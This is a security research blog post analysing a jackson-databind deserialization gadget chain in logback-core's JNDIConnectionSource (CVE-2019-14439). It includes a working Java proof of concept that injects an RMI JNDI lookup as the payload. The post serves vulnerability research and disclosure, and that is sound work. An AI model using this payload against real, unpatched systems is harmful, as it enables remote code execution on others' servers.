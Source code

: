 ```yaml
---
layout: post
title: "Attacking Unmarshallers :: JNDI Injection using Getter Based Deserialization Gadgets"
date: 2019-08-07 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">I know you have pwned deserialization of untrusted data bugs before (if you haven't what the hell, they are fun!), but have you pwned an entire REST framework due to a misconfigured marshaller? In this short blog post, we will reveal some quick research that was done based upon the excellent work perform by [Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, I share another gadget chain for FasterXML's jackson-databind using the common logback-core library and not requiring any other libraries. This was a bug collison with [badcode of Knownsec 404 Team](https://twitter.com/80vul/status/1156766341946232832) and marked as CVE-2019-14439.*</p>

## Analysis

<p class="cn" markdown="1">During a quick audit of the logback-core library, I found a gadget chain for the ch.qos.logback.core.db.JNDIConnectionSource class literally the same package as the DriverManagerConnectionSource class</p>

{% include image.html
            img="assets/images/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization/JNDIConnectionSource.png#2"
            title="Next to the DriverManagerConnectionSource class"
            caption="Next to the DriverManagerConnectionSource class"
            style="width:30%;height:30%" %}

<p class="cn" markdown="1">The setter for the class looks pretty standard for `jndiLocation`</p>

```java
/*  90 */   public void setJndiLocation(String jndiLocation) { this.jndiLocation = jndiLocation; }
```

<p class="cn" markdown="1">However, we trigger the `getConnection` method via `ObjectMapper.writeValueAsString` which is used to return JSON objects back to a user via a REST endpoint, we reach the following code:</p>

```java
/*     */   public Connection getConnection() throws SQLException {
/*  54 */     Connection conn = null;
/*     */     try {
/*  56 */       if (this.dataSource == null) {
/*  57 */         this.dataSource = lookupDataSource();         // 1
/*     */       }
```

<p class="cn" markdown="1">So if the dataSource property is not set, the code calls `JNDIConnectionSource.lookupDataSource` at *[1]*</p>

```java
/*     */   private DataSource lookupDataSource() throws NamingException, SQLException {
/*  94 */     addInfo("Looking up [" + this.jndiLocation + "] in JNDI");
/*     */     
/*  96 */     Context initialContext = new InitialContext();                    // 2
/*  97 */     Object obj = initialContext.lookup(this.jndiLocation);            // 3
/*     */ 
/*     */ 
/*     */     
/* 101 */     DataSource ds = (DataSource)obj;
/*     */     
/* 103 */     if (ds == null) {
/* 104 */       throw new SQLException("Failed to obtain data source from JNDI location " + this.jndiLocation);
/*     */     }
/* 106 */     return ds;
/*     */   }
```

<p class="cn" markdown="1">At *[2]* the code gets an instance of the InitialContext class and at *[3]* the code calls `InitialContext.lookup` using the attacker controlled `jndiLocation` property.</p>

<p class="cn" markdown="1">In a context dependant attack, where default typing is enabled for jackson-databind, this can result in a JNDI Injection vulnerability.</p>

```java
import java.io.IOException;
import com.fasterxml.jackson.core.JsonParseException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonTest {
    public static void main(String[] args) throws JsonParseException, JsonMappingException, IOException {
        
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();

        StringBuilder d = new StringBuilder();
        d.append("[");
        d.append("\"ch.qos.logback.core.db.JNDIConnectionSource\"");
        d.append(",");
        d.append("{");
        d.append("\"jndiLocation\"");
        d.append(":");
        d.append("\"rmi://127.0.0.1:1097/rce\"");       // payload
        d.append("}");
        d.append("]");
 
        Object obj = objectMapper.readValue(d.toString(), java.lang.Object.class);          // trigger getters
        objectMapper.writeValueAsString(obj);                                               // trigger setters
    }
}
```

<p class="cn" markdown="1">There are multiple ways to achieve remote code execution via JNDI injection on older versions of Java using either class loading or attacking the Distrubuted Garbage Collection (DGC) for deserialization of untrusted data, techniques which are all taught in [Full Stack Web Attack](/training).</p> 

## Conclusion

<p class="cn" markdown="1">Getter based deserialization attacks are something to watch out for and can be mitigated by not using default typing. This is not a vulnerability to worry about since it has been patched and requires specific version of java to exploit.</p>

<p class="cn" markdown="1">It's interesting to note that the connection property doesn't exist at all in the `JNDIConnectionSource` class, even so, `getConnection` follows the Java bean convention and still gets called!</p>

<p class="cn" markdown="1">FasterXML continue to block individual classes and whilst I see the reasoning behind it, it makes for a cat and mouse game between attackers and defenders and I don't think that is the right approach.</p>

## References

<div markdown="1" class="cn">
- [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [https://github.com/FasterXML/jackson-databind/issues/2389](https://github.com/FasterXML/jackson-databind/issues/2389)
</div>
